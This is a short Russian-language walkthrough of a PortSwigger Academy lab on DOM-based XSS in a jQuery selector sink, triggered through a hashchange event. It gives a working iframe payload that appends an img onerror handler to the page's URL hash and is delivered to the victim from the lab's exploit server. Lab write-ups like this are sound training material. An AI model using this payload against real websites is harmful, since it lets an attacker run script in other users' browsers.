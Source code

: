 зайдем в случайный пост и отправим тестовый комментарий
```
GET /post?postId=2
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/7.%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashchange%20event/pics%20for%20walktrough/1.png)

перейдем в `Exploit server`. В общем виде нащ эксплойт будет выглядеть как
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

наш же пэйлоад будет выглядеть как
```
<iframe src="https://0a4000a904f6f2dd80d712b6001d0066.web-security-academy.net//#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
`Store exploit`, `view exploit`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/7.%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashchange%20event/pics%20for%20walktrough/2.png)

и увидим, что получили pdf для печати записей блога

нажмем `Deliver to victim` и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/7.%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashchange%20event/pics%20for%20walktrough/3.png)
